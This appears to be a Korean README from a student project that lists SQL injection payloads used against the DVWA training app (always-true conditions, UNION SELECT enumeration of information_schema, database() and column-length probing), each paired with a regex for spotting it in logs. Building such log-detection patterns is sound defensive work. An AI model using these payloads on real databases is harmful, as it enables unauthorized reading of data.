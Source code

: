 ## SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
### 1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

표현식
- (\d)*?'\s*?or\s(1=1|true|\'\d*\'=\'\d*\')

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.

표현식
- (\d)*?\'\s*?union\sselect\s(\d+\s*?\,\s*?)*\d+\s*?(#)
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?table_name\s(\d*?\s*?\,\s*?)*\d*?\s*?from\sinformation_schema\.tables\s(where\stable_schema\s*?\=\s*?\'(.*)\')*?


---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`

표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?database\(\)

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.

표현식
- (\d)*?\'\s*?and\s\(select\s\d\sfrom\sinformation_schema\.columns\swhere\stable_schema\=\'(.*)\'(\sand\stable_name\=\'(.*)\')*?(\sand\slength\(column_name\)\=\d)*?


---
### 5. 컬럼 이름 확인
이 페이로드는 information_schema를 이용해 특정 테이블의 컬럼 이름을 추출합니다. LIMIT 절을 사용해 특정 위치의 컬럼 이름을 선택합니다.
- ' UNION SELECT 1,column_name from information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION select 1,column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' and table_schema='dvwa' #

표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?column_name

